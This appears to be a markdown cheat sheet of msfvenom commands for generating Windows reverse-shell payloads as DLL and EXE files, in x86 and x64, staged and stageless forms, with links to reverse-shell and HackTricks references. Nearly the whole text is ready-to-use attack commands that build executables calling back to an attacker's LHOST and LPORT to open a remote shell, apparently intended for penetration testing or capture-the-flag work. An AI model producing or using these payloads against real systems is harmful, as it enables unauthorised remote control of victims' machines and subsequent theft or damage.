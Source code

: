 ### :open_file_folder: Reference resources

https://www.revshells.com/

https://book.hacktricks.xyz/shells/shells/msfvenom

### :open_file_folder: Windows

- dll

x86(try first)

```
msfvenom -p windows/shell_reverse_tcp -f dll -o xxx.dll LHOST=<IP> LPORT=<PORT>
```

x64

```
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o xxx.dll LHOST=<IP> LPORT=<PORT>
```

- exe

Staged Payloads for Windows

x86

```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

x64

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

Stageless Payloads for Windows(try first)

x86

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

x64

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

